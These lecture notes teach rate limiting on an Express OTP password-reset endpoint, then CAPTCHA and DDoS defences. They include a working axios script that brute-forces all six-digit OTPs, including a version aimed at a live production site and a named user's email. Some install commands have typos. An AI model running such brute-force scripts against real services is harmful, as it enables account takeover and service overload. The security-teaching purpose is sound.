

In this lecture, Harkirat covers `rate limiting` - a technique to control incoming request rates, preventing system overload. He explains `why` rate limiting is crucial, especially against `DDoS` attacks and excessive legitimate traffic. The lecture covers implementing rate limiting at different levels and using `CAPTCHAs` to mitigate bot attacks.

  

Rate Limiting

1] Preventing Overload

2] Mitigating Abuse

3] Managing Traffic

4] DDoS Protection

5] Cost Optimization

Applying Rate Limit

1] Password Reset Endpoints

2] Login Endpoints

3] Sign-up/Registration Endpoints

4] API Endpoints

5] Sensitive Operations

6] High-Traffic Endpoints

General Considerations

Implementing a Simple Reset Password Endpoint

Initializing a TypeScript Project

Updating tsconfig.json

Installing Dependencies

Adding the Code

Testing with Postman

Exploiting the Endpoint

Exporting Node.js Code from Postman

Creating a New Project

Installing Dependencies

Adding Brute Force Logic

Running the Exploit

Exploiting One in Production

Accessing the Website

Exploiting the Endpoint

Updating the Exploit Script

Getting Rate Limited

Saving the Endpoint

Installing the Dependency

Updating the Code

Issues With Rate Limiting

Why Attackers Perform DDoS Attacks

How DDoS Attacks Work

Protecting the Reset Password Endpoint from DDoS

Captchas

The Need for Captchas

Cloudflare Turnstile: A Free Captcha Replacement

Adding Captchas via Cloudflare Turnstile

Setting up Cloudflare Turnstile

Creating a React Project

Updating the React Component

Updating the Backend Code

DDoS Protection in Production

Move Your Domain to Cloudflare

Proxy All Records via Cloudflare

  

# **Rate Limiting**

Rate limiting is a crucial technique employed in web applications and APIs to control the rate at which requests are processed. It serves several important purposes:


### 1] Preventing Overload

Rate limiting controls how often a user or system can make requests to a service. This helps prevent overuse of resources, ensuring that the system remains available and responsive for all users. For example, rate limiting can stop a single user from making thousands of login attempts in a minute, which could otherwise degrade service for others.

### 2] Mitigating Abuse

Without rate limiting, an application could be more susceptible to abuse such as brute force attacks on passwords or spamming behavior. By limiting how often someone can perform an action, it reduces the feasibility of such attacks and helps maintain the integrity of the system.

### 3] Managing Traffic

In high-traffic scenarios, like ticket sales for a popular event, rate limiting can help manage the load on a server, preventing crashes and ensuring a fairer distribution of service like bandwidth or access to the purchasing system. It helps to regulate the flow of incoming requests, preventing any single user or client from monopolizing resources.

### 4] DDoS Protection

A Distributed Denial of Service (DDoS) attack involves overwhelming a site with a flood of traffic from multiple sources, which can make the website unavailable. DDoS protection mechanisms detect unusual traffic flows and can filter out malicious traffic, helping to keep the service operational despite the attack. Rate limiting is often used as part of a comprehensive DDoS protection strategy, limiting the number of requests that can be processed from a single source or IP address.

### 5] Cost Optimization

In cloud computing environments, where resources are billed based on usage, rate limiting can help optimize costs by preventing excessive resource consumption. By limiting the rate at which requests are processed, you can avoid unnecessary scaling and associated costs.

> Overall, rate limiting is a crucial technique for ensuring the availability, security, and scalability of web applications and APIs. It helps to maintain a balance between serving legitimate traffic and protecting against abuse or overload scenarios.

  

  

# Applying Rate Limit


### 1] Password Reset Endpoints

When allowing users to reset their passwords using an OTP (One-Time Password) sent to their email, the endpoint that handles the submission of the OTP for password reset should be heavily rate limited. Failing to implement rate limiting on this endpoint can make the application vulnerable to brute-force attacks, where an attacker can repeatedly guess the OTP by sending a large number of requests until they find the correct one, potentially gaining unauthorized access to user accounts.

### 2] Login Endpoints

Login endpoints should be rate limited to prevent brute-force attacks on user credentials. Attackers may attempt to gain access to accounts by trying numerous username and password combinations, which can be mitigated by limiting the number of failed login attempts from a single IP address, user ID, or other relevant identifier.

### 3] Sign-up/Registration Endpoints

Rate limiting should be applied to sign-up or registration endpoints to prevent abuse and automated account creation. Without rate limiting, malicious actors could create a large number of fake accounts for various purposes, such as spamming, credential stuffing, or other malicious activities.

### 4] API Endpoints

Public-facing API endpoints should be rate limited to prevent excessive usage and potential Distributed Denial of Service (DDoS) attacks. Rate limiting can help ensure that no single client or user can monopolize the API resources, maintaining availability for all legitimate users.

### 5] Sensitive Operations

Endpoints that handle sensitive operations, such as changing email addresses, passwords, or two-factor authentication settings, should be rate limited to prevent abuse and unauthorized access attempts.

### 6] High-Traffic Endpoints

In scenarios with high traffic, such as ticket purchases or e-commerce checkout processes, rate limiting should be implemented to manage the influx of requests and ensure fair distribution of resources among users.

### General Considerations

Rate limiting should be applied based on various factors like IP address, user ID, email address, or any other relevant identifier, depending on the application's requirements. The rate limits should be set to reasonable values that allow legitimate usage while preventing abuse or excessive load on the system.

  


  

  

# Implementing a Simple Reset Password Endpoint

In this section, we'll create a basic Express.js server with two endpoints: one for generating an OTP (One-Time Password) and logging it to the console, and another for resetting the password using the OTP.

### Initializing a TypeScript Project

First, let's initialize a new TypeScript project:

```Shell
npm init -y
npx tsc --ini
```

This will create a `package.json` file and a `tsconfig.json` file with default TypeScript configuration.

### Updating `tsconfig.json`

We'll update the `tsconfig.json` file to specify the root directory for our source files and the output directory for the compiled JavaScript files:

```JSON
"rootDir": "./src",
"outDir": "./dist"
```

### Installing Dependencies

Next, we'll install the required dependencies:

```Shell
npm i express @types/expres
```

### Adding the Code

Create a new file `src/index.ts` and add the following code:

```TypeScript
import express from 'express';

const app = express();
const PORT = 3000;

app.use(express.json());

// Store OTPs in a simple in-memory object
const otpStore: Record<string, string> = {};

// Endpoint to generate and log OTP
app.post('/generate-otp', (req, res) => {
  const email = req.body.email;
  if (!email) {
    return res.status(400).json({ message: "Email is required" });
  }
  const otp = Math.floor(100000 + Math.random() * 900000).toString(); // generates a 6-digit OTP
  otpStore[email] = otp;

  console.log(`OTP for ${email}: ${otp}`); // Log the OTP to the console
  res.status(200).json({ message: "OTP generated and logged" });
});

// Endpoint to reset password
app.post('/reset-password', (req, res) => {
  const { email, otp, newPassword } = req.body;
  if (!email || !otp || !newPassword) {
    return res.status(400).json({ message: "Email, OTP, and new password are required" });
  }
  if (otpStore[email] === otp) {
    console.log(`Password for ${email} has been reset to: ${newPassword}`);
    delete otpStore[email]; // Clear the OTP after use
    res.status(200).json({ message: "Password has been reset successfully" });
  } else {
    res.status(401).json({ message: "Invalid OTP" });
  }
});

app.listen(PORT, () => {
  console.log(`Server running on <http://localhost>:${PORT}`);
});
```

Let's break down the code:

1. We import the `express` module and create a new Express application instance.
2. We use `app.use(express.json())` to parse incoming JSON request bodies.
3. We create an in-memory object `otpStore` to store the generated OTPs for each email address.
4. The `/generate-otp` endpoint generates a 6-digit OTP, stores it in `otpStore` with the provided email as the key, and logs the OTP to the console.
5. The `/reset-password` endpoint checks if the provided email, OTP, and new password are valid. If the OTP matches the one stored in `otpStore`, it logs the new password to the console and clears the OTP from `otpStore`. Otherwise, it returns an "Invalid OTP" error.
6. Finally, we start the server and listen on port 3000.

  


### Testing with Postman

You can use Postman or any other API testing tool to test the endpoints. Here are the steps:

1. Start the server by running `npx ts-node src/index.ts` in your terminal.
2. In Postman, send a POST request to `http://localhost:3000/generate-otp` with the following request body:

```JSON
{
  "email": "example@example.com"
}
```

This will generate an OTP and log it to the console.

1. Copy the generated OTP from the console.
2. In Postman, send a POST request to `http://localhost:3000/reset-password` with the following request body:

```JSON
{
  "email": "example@example.com",
  "otp": "123456", // Replace with the generated OTP
  "newPassword": "newpassword"
}
```

If the OTP is correct, you should see a "Password has been reset successfully" message in the console.

1. Try hitting the `/reset-password` endpoint with various OTPs one by one. Notice that the server doesn't rate limit you, allowing you to make as many requests as you want.

In this implementation, we haven't added any rate limiting mechanism. This means that an attacker could potentially brute-force the OTP by sending a large number of requests until they find the correct one, which could lead to unauthorized access to user accounts.

  

# Exploiting the Endpoint

In this section, we'll create a script to exploit the lack of rate limiting on the `/reset-password` endpoint by sending a large number of requests in an attempt to brute-force the OTP.

### Exporting Node.js Code from Postman

First, we'll export the Node.js code from Postman to hit the `/reset-password` endpoint. This code will be used as a starting point for our exploit script.

Postman Export


### Creating a New Project

1. Create a new folder called `exploit-service`.
2. Initialize a simple TypeScript project inside the folder:

```Shell
npm init -y
npx tsc --ini
```

### Installing Dependencies

Install the `axios` library, which we'll use to make HTTP requests:

```Shell
npm install axios
```

### Adding Brute Force Logic

Create a new file `src/index.ts` and add the following code:

```TypeScript
import axios from "axios";

async function sendRequest(otp: number) {
  let data = JSON.stringify({
    "email": "harkirat@gmail.com",
    "otp": otp,
    "newPassword": "123123123"
  });

  let config = {
    method: 'post',
    maxBodyLength: Infinity,
    url: '<http://localhost:3000/reset-password>',
    headers: {
      'sec-ch-ua': '"Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"',
      'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22admin%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
      'sec-ch-ua-mobile': '?0',
      'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
      'Accept': 'text/x-component',
      'Referer': '<http://localhost:3000/admin>',
      'Next-Action': 'a221b071140e55563e91a3226c508cb229c121f6',
      'sec-ch-ua-platform': '"macOS"',
      'Content-Type': 'application/json'
    },
    data: data
  };

  try {
    await axios.request(config)
    console.log("done for " + otp);
  } catch(e) {
    // Ignore errors
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```

Let's break down the code:

1. We import the `axios` library to make HTTP requests.
2. The `sendRequest` function takes an OTP as input and sends a POST request to the `/reset-password` endpoint with the provided OTP, email, and a new password. It logs a message to the console if the request is successful and ignores any errors.
3. The `main` function is the entry point of our script. It iterates from 0 to 1,000,000 in batches of 100, creating an array of promises for each batch. Each promise represents a call to the `sendRequest` function with a different OTP value.
4. We use `Promise.all` to wait for all promises in a batch to resolve before moving to the next batch.

This script will send 1,000,000 requests to the `/reset-password` endpoint, trying OTPs from 0 to 999,999 in batches of 100 requests at a time.

**Note:** We've added batching here, sending 100 requests at a time, to avoid overwhelming the server with too many concurrent requests. However, even with batching, this script can still cause a significant load on the server if no rate limiting is implemented.

### Running the Exploit

1. Start the server by running `npx ts-node src/index.ts` in the server project's terminal.
2. In a separate terminal, navigate to the `exploit-service` folder and run `npx ts-node src/index.ts` to start the exploit script.

You should see the script sending requests to the server and logging messages to the console. On the server side, you'll notice that it doesn't rate limit the incoming requests, allowing the exploit script to brute-force the OTP.

> To mitigate this vulnerability, you should implement rate limiting on the `/reset-password` endpoint, limiting the number of requests that can be made from a single IP address, user ID, or other relevant identifier within a specific time window.

  

# Exploiting One in Production

Let's try resetting the password on [https://harkirat.classx.co.in](https://harkirat.classx.co.in/) and see if we can exploit the lack of rate limiting.

### Accessing the Website

1. Go to [https://harkirat.classx.co.in](https://harkirat.classx.co.in/)
2. Enter a random user's email (e.g., `randomuser@example.com`)
3. Send the OTP
4. Try entering a random OTP


You'll notice that the website doesn't have any rate limiting in place, allowing you to make as many attempts as you want to guess the OTP.

### Exploiting the Endpoint

To exploit this vulnerability, we'll copy the request from the network tab as a cURL command and paste it into Postman.

1. Open the developer tools in your browser and go to the Network tab.
2. Locate the request made when you submitted the OTP.
3. Right-click on the request and select "Copy as cURL".
4. Paste the cURL command into Postman.


1. Send a request via Postman to test the endpoint.
2. Export the request from Postman.


### Updating the Exploit Script

Now, let's update our exploit script to brute-force the OTP on this endpoint:

```TypeScript
import axios from "axios";

async function sendRequest(otp: number) {
  let config = {
    method: 'get',
    maxBodyLength: Infinity,
    url: '<https://harkiratapi.classx.co.in/get/otpverify?useremail=harkirat.iitr%40gmail.com&otp=>' + otp,
    headers: {
      'accept': '*/*',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'auth-key': 'appxapi',
      'client-service': 'Appx',
      'device-type': '',
      'origin': '<https://harkirat.classx.co.in>',
      'priority': 'u=1, i',
      'referer': '<https://harkirat.classx.co.in/>',
      'sec-ch-ua': '"Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"',
      'sec-ch-ua-mobile': '?0',
      'sec-ch-ua-platform': '"macOS"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
      'sec-fetch-site': 'same-site',
      'source': 'website',
      'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36'
    }
  };

  try {
    await axios.request(config);
  } catch (error) {
    console.error(error);
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```

This script will send 1,000,000 requests to the `/get/otpverify` endpoint, trying OTPs from 0 to 999,999 in batches of 100 requests at a time.

### Getting Rate Limited

When you run this script, you'll notice that after a certain number of requests, the server will start rate limiting you, preventing you from brute-forcing the OTP.

This is a good thing, as it shows that the server has implemented rate limiting to protect against such attacks.



To mitigate this vulnerability, it's essential to implement rate limiting on sensitive endpoints like password reset, login, and account creation. Rate limiting should be applied based on various factors like IP address, user ID, email address, or any other relevant identifier, depending on the application's requirements.

  

  

# Saving the Endpoint

To protect our endpoints from abuse and brute-force attacks, we'll implement rate limiting using the `express-rate-limit` package.


### Installing the Dependency

First, let's install the `express-rate-limit` package:

```Shell
npm i express-rate-limit
```

### Updating the Code

Now, let's update our code to include rate limiting:

```TypeScript
import express from 'express';
import rateLimit from 'express-rate-limit';

const app = express();
const PORT = 3000;

app.use(express.json());

// Rate limiter configuration
const otpLimiter = rateLimit({
    windowMs: 5 * 60 * 1000, // 5 minutes
    max: 3, // Limit each IP to 3 OTP requests per windowMs
    message: 'Too many requests, please try again after 5 minutes',
    standardHeaders: true, // Return rate limit info in the `RateLimit-*` headers
    legacyHeaders: false, // Disable the `X-RateLimit-*` headers
});

const passwordResetLimiter = rateLimit({
    windowMs: 15 * 60 * 1000, // 15 minutes
    max: 5, // Limit each IP to 5 password reset requests per windowMs
    message: 'Too many password reset attempts, please try again after 15 minutes',
    standardHeaders: true,
    legacyHeaders: false,
});

// Store OTPs in a simple in-memory object
const otpStore: Record<string, string> = {};

// Endpoint to generate and log OTP with rate limiting
app.post('/generate-otp', otpLimiter, (req, res) => {
    console.log(req.body);
    const email = req.body.email;
    if (!email) {
        return res.status(400).json({ message: "Email is required" });
    }
    const otp = Math.floor(100000 + Math.random() * 900000).toString(); // generates a 6-digit OTP
    otpStore[email] = otp;

    console.log(`OTP for ${email}: ${otp}`); // Log the OTP to the console
    res.status(200).json({ message: "OTP generated and logged" });
});

// Endpoint to reset password with rate limiting
app.post('/reset-password', passwordResetLimiter, (req, res) => {
    const { email, otp, newPassword } = req.body;

    if (!email || !otp || !newPassword) {
        return res.status(400).json({ message: "Email, OTP, and new password are required" });
    }
    if (Number(otpStore[email]) === Number(otp)) {
        console.log(`Password for ${email} has been reset to: ${newPassword}`);
        delete otpStore[email]; // Clear the OTP after use
        res.status(200).json({ message: "Password has been reset successfully" });
    } else {
        res.status(401).json({ message: "Invalid OTP" });
    }
});

app.listen(PORT, () => {
    console.log(`Server running on <http://localhost>:${PORT}`);
});
```

Let's break down the changes:

1. We import the `rateLimit` function from the `express-rate-limit` package.
2. We define two rate limiters: `otpLimiter` and `passwordResetLimiter`.
    - `otpLimiter` limits each IP address to 3 OTP requests per 5 minutes.
    - `passwordResetLimiter` limits each IP address to 5 password reset requests per 15 minutes.
3. We apply the `otpLimiter` middleware to the `/generate-otp` endpoint, ensuring that the rate limit is enforced for OTP generation requests.
4. We apply the `passwordResetLimiter` middleware to the `/reset-password` endpoint, ensuring that the rate limit is enforced for password reset requests.

With these changes, our server will now rate limit requests to the `/generate-otp` and `/reset-password` endpoints based on the IP address of the client. If a client exceeds the specified rate limit, they will receive a `429 Too Many Requests` response with the appropriate error message.

  

The `express-rate-limit` package provides additional configuration options, such as allowing or denying specific IP addresses, using different rate limiting strategies (e.g., memory store, Redis store), and more. You can explore these options in the package documentation and adjust the configuration to suit your specific requirements.

  


By implementing rate limiting, we've significantly reduced the risk of brute-force attacks and abuse on our password reset endpoints, improving the overall security and reliability of our application.

  

# Issues With Rate Limiting

While rate limiting is an effective technique to mitigate brute-force attacks and prevent abuse of specific endpoints, it does not provide complete protection against Distributed Denial of Service (DDoS) attacks.


### Why Attackers Perform DDoS Attacks

Attackers may launch DDoS attacks for various reasons, including:

1. **Extortion and Ransom**: Attackers may demand a ransom payment from the targeted organization, threatening to keep the service down until the DDoS attack is lifted and the ransom is paid.
2. **Competitive Advantage**: In scenarios like sneaker drop events or NFT mints, where being the first to reach the server can provide an advantage, attackers may attempt to overwhelm the server with traffic, making it inaccessible to legitimate users.
3. **Ideological or Political Motives**: DDoS attacks can also be carried out for ideological or political reasons, with the aim of disrupting or taking down a particular service or organization.

### How DDoS Attacks Work

DDoS attacks work by overwhelming the target system with an overwhelming amount of traffic from multiple sources, exhausting its resources and making it unable to respond to legitimate requests. This traffic can come from a network of compromised devices (botnets) or other malicious sources.


Even with rate limiting in place, a DDoS attack can still saturate the network bandwidth, consume server resources, or exploit other vulnerabilities in the system, leading to service disruption or downtime.

### Protecting the Reset Password Endpoint from DDoS

While rate limiting can help mitigate brute-force attacks on the reset password endpoint, additional measures are needed to protect against DDoS attacks:

1. **Implement Logic for Limited Password Resets**: You can implement logic that allows only a limited number of password resets per email address within a specific time frame. For example, you could allow a maximum of 3 password reset requests per email address within a 24-hour period.
2. **Implement Captcha Logic**: Implementing a captcha mechanism can help distinguish between legitimate users and automated bots or scripts. This can be particularly effective in protecting against DDoS attacks that rely on automated traffic.
3. **Implement DDoS Mitigation Services**: Consider using specialized DDoS mitigation services offered by content delivery networks (CDNs) or cloud providers. These services are designed to absorb and filter out DDoS traffic before it reaches your server, ensuring service availability.
4. **Monitor and Respond Quickly**: Implement robust monitoring and alerting systems to detect DDoS attacks early. Have a well-defined incident response plan in place to quickly mitigate the attack and minimize downtime.

  

# Captchas

Captchas (Completely Automated Public Turing test to tell Computers and Humans Apart) are a widely used security measure to ensure that a request or action is being performed by a human and not by an automated bot or script. They serve as a valuable defense against various types of abuse, such as brute-force attacks, spam, and automated account creation.


### The Need for Captchas

While rate limiting can help mitigate brute-force attacks and prevent excessive requests from a single source, it does not provide a foolproof solution against distributed attacks or sophisticated bots that can rotate IP addresses or mimic human behavior. Captchas introduce an additional layer of security by presenting a challenge that is relatively easy for humans to solve but difficult for machines or automated scripts.

### Cloudflare Turnstile: A Free Captcha Replacement

Cloudflare Turnstile is a free and modern alternative to traditional captchas, designed to provide a frustration-free experience for website visitors while effectively blocking bots and automated scripts. According to the information provided:

1. Turnstile delivers captcha-free web experiences to website visitors with just a simple snippet of code.
2. It stops abuse and confirms that visitors are real without the data privacy concerns or awful user experience associated with traditional captchas.
3. Turnstile is effective at stopping bots by running a series of in-browser tests, checking browser characteristics, and utilizing lightweight proof-of-work or proof-of-space tests.

  

# Adding Captchas via Cloudflare Turnstile

To enhance the security of our application and protect against automated abuse, we'll integrate Cloudflare Turnstile, a free and modern captcha replacement.


### Setting up Cloudflare Turnstile

1. Go to the Cloudflare Turnstile website ([https://www.cloudflare.com/products/turnstile/](https://www.cloudflare.com/products/turnstile/)) and click on the "Get Started" button.
2. Follow the prompts to add a new site to Turnstile.
3. Make sure to keep your site key and site secret safe, as you'll need them for the integration.

### Creating a React Project

1. Create a new React project using your preferred method (e.g., Create React App, Vite, etc.).
2. Install the `@marsidev/react-turnstile` package by running the following command:

```Shell
npm install @marsidev/react-turnstil
```

### Updating the React Component

Open the `App.tsx` file (or the main component file) and update it with the following code:

```JavaScript
import { Turnstile } from '@marsidev/react-turnstile'
import './App.css'
import axios from 'axios'
import { useState } from 'react'

function App() {
  const [token, setToken] = useState<string>("")

  return (
    <>
      <input placeholder='OTP'></input>
      <input placeholder='New password'></input>

      <Turnstile onSuccess={(token) => {
        setToken(token)
      }} siteKey='0x4AAAAAAAXtEe2JIeAEUcjX' />

      <button onClick={() => {
        axios.post("<http://localhost:3000/reset-password>", {
          email: "harkirat@gmail.com",
          otp: "123456",
          token: token,
        })
      }}>Update password</button>
    </>
  )
}

export default App
```

In this code:

1. We import the `Turnstile` component from the `@marsidev/react-turnstile` package.
2. We create a state variable `token` to store the token generated by Turnstile.
3. We render the `Turnstile` component, passing in the `siteKey` obtained from the Cloudflare Turnstile setup and an `onSuccess` callback that sets the `token` state with the generated token.
4. We also render input fields for the OTP and new password, as well as a button to send a POST request to the `/reset-password` endpoint with the email, OTP, new password, and the generated token.

### Updating the Backend Code

Next, we'll update the backend code to verify the Turnstile token before allowing the password reset:

```TypeScript
import express from 'express';
import cors from "cors";

const SECRET_KEY = "your_site_secret";

const app = express();
const PORT = 3000;

app.use(express.json());
app.use(cors());

// Store OTPs in a simple in-memory object
const otpStore: Record<string, string> = {};

// Endpoint to generate and log OTP
app.post('/generate-otp', (req, res) => {
  console.log(req.body)
  const email = req.body.email;
  if (!email) {
    return res.status(400).json({ message: "Email is required" });
  }
  const otp = Math.floor(100000 + Math.random() * 900000).toString(); // generates a 6-digit OTP
  otpStore[email] = otp;

  console.log(`OTP for ${email}: ${otp}`); // Log the OTP to the console
  res.status(200).json({ message: "OTP generated and logged" });
});

// Endpoint to reset password
app.post('/reset-password', async (req, res) => {
  const { email, otp, newPassword, token } = req.body;
  console.log(token);

  let formData = new FormData();
  formData.append('secret', SECRET_KEY);
  formData.append('response', token);

  const url = '<https://challenges.cloudflare.com/turnstile/v0/siteverify>';
  const result = await fetch(url, {
    body: formData,
    method: 'POST',
  });
  const challengeSucceeded = (await result.json()).success;

  if (!challengeSucceeded) {
    return res.status(403).json({ message: "Invalid reCAPTCHA token" });
  }

  if (!email || !otp || !newPassword) {
    return res.status(400).json({ message: "Email, OTP, and new password are required" });
  }
  if (Number(otpStore[email]) === Number(otp)) {
    console.log(`Password for ${email} has been reset to: ${newPassword}`);
    delete otpStore[email]; // Clear the OTP after use
    res.status(200).json({ message: "Password has been reset successfully" });
  } else {
    res.status(401).json({ message: "Invalid OTP" });
  }
});

app.listen(PORT, () => {
  console.log(`Server running on <http://localhost>:${PORT}`);
});
```

In this updated code:

1. We import the `cors` package to allow cross-origin requests from the React application.
2. We define the `SECRET_KEY` constant with the site secret obtained from the Cloudflare Turnstile setup.
3. In the `/reset-password` endpoint, we extract the `token` from the request body.
4. We create a `FormData` object and append the `SECRET_KEY` and the `token` to it.
5. We send a POST request to the Cloudflare Turnstile verification endpoint (`https://challenges.cloudflare.com/turnstile/v0/siteverify`) with the `FormData` object.
6. We check the response from the verification endpoint to determine if the challenge succeeded.
7. If the challenge did not succeed, we return a `403 Forbidden` response with an error message.
8. If the challenge succeeded, we proceed with the password reset logic as before.

  

> With these changes, the React application will display the Turnstile captcha challenge, and the backend will verify the generated token before allowing the password reset. This helps to ensure that the request is coming from a human user and not an automated bot or script, providing an additional layer of security against abuse and brute-force attacks.

  

# **DDoS Protection in Production**

To protect your application from Distributed Denial of Service (DDoS) attacks in a production environment, Cloudflare offers a comprehensive solution. Here are the steps to leverage Cloudflare's DDoS protection:

## **Move Your Domain to Cloudflare**

1. Sign up for a Cloudflare account if you haven't already.
2. Add your domain to Cloudflare by following the instructions provided during the onboarding process.

## **Proxy All Records via Cloudflare**

1. Once your domain is added to Cloudflare, navigate to the DNS settings.
2. Ensure that all your DNS records (A, AAAA, CNAME, etc.) are proxied through Cloudflare. This is typically done by changing the record type to "Cloudflare DNS" or enabling the "Proxy" option for each record.

By proxying all your records through Cloudflare, your website or application traffic will be routed through Cloudflare's global network, which provides DDoS protection and other security features.